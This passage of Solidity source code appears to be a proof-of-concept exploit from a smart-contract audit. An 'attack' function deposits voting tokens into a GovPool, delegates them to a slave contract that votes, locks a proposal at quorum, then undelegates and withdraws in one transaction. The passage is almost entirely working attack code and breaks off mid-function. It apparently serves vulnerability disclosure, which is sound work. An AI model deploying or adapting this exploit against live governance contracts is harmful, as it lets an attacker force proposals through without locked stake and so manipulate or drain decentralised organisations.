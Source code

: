 ```solidity
    //    (caller transfer tokens to contract before calling to simplify PoC)
    // 2) deposit voting tokens into GovPool
    // 3) delegate voting power to slave contract
    // 4) slave contract votes with delegated power
    // 5) proposal immediately reaches quorum and moves into Locked state
    // 6) undelegate voting power from slave contract
    //    since undelegation works while Proposal is in locked state
    // 7) withdraw voting tokens from GovPool while proposal still in Locked state
    // 8) all in 1 txn
    //

    function attack(address govPoolAddress, address tokenAddress, uint256 proposalId) external {
        // verify that the attack contract contains the voting tokens
        IERC20 votingToken = IERC20(tokenAddress);

        uint256 votingPower = votingToken.balanceOf(address(this));
        require(votingPower > 0, "AttackContract: need to send tokens first");

        // create the slave contract that this contract will delegate to which
        // will do the actual vote
        FlashDelegationVoteAttackSlave slave = new FlashDelegationVoteAttackSlave();

        // deposit our tokens with govpool
        IGovPool govPool = IGovPool(govPoolAddress);

        // approval first
        (, address userKeeperAddress, , , ) = govPool.getHelperContracts();
        votingToken.approve(userKeeperAddress, votingPower);

        // then actual deposit
        govPool.deposit(address(this), votingPower, new uint256[](0));

        // verify attack contract has no tokens
        require(
            votingToken.balanceOf(address(this)) == 0,
            "AttackContract: balance should be 0 after depositing tokens"
        );

        // delegate our voting power to the slave
        govPool.delegate(address(slave), votingPower, new uint256[](0));

        // slave does the actual vote
        slave.vote(govPool, proposalId);

        // verify proposal now in Locked state as quorum was reached
        require(
            govPool.getProposalState(proposalId) == IGovPool.ProposalState.Locked,
            "AttackContract: proposal didnt move to Locked state after vote"
        );

        // undelegate our voting power from the slave
        govPool.undelegate(address(slave), votingPower, new uint256[](0));

        // withdraw our tokens
        govPool.withdraw(address(this), votingPower, new uint256[](0));

        // verify attack contract has withdrawn all tokens used in the delegated vote
        require(
            votingToken.balanceOf(address(this)) == votingPower,
            "AttackContract: balance should be full after withdrawing"
        );

        // verify proposal still in the Locked state
```